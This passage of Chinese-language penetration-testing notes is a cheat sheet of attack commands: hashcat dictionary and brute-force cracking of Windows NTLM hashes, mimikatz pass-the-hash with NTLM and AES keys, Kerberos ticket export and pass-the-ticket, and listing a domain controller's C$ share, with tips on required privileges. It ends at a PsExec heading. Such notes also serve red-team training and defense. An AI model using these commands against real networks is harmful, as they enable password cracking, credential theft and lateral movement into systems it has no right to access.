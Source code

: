 **常用命令：**

```sh
# 字典模式爆破
hashcat -a 0 -m xx <hashfile> <dictory1> <dictory2>……
# 1-8纯数字爆破
hashcat -a 3 --increment-min 1 --increment-max 8 ?d?d?d?d?d?d?d?d -O
# 破解Windows散列
hashcat -m 1000 -a 0 winpassok.txt win.hash password.list --username
```

# 哈希传递攻击

大量的计算机在域内安装时，会使用相同的本地管理员的账号密码。如果计算机的本地管理员账号密码也是相同的，攻击者就能使用哈希（已经获得的管理员的NTLM Hash）传递攻击的方法登录内网中的其他计算机。

```sh
# ntlm 传递
privilege::debug
sekurlsa::pth /user:administrator /domain:hacke.testlab /ntlm:<hash>

# AES-256传递
privilege::debug
sekurlsa::ekeys # 抓取密钥
sekurlsa::pth /user:administrator /domain:hacke.testlab /ase256:<hash>

# 读取磁盘
dir \\DC\C$
```

**注意点：**

- `dir`后面要个主机名
- `AES-128`也能进行哈希传递
- `AES`密钥传递前提本地安装KB2871997
- 使用`mimikatz`进行哈希传递需要管理员权限，因为需要高进程权限执行`lsass.exe`

# 票据传递攻击

```sh
privilege::debug
sekurlsa::tickets /export # 将内存中的票据导出
kerberos::purge # 清楚内存中的票据
kerberos::ptt "<高权限票据的绝对路径>"
```

也可以使用`kekeo`和`mimikatz`使用方法基本一致

- 使用dir命令必须使用该主机名
- 票据文件注入内存默认有效时间是十小时
- 不需要本地管理员权限即可进行攻击

# PsExec
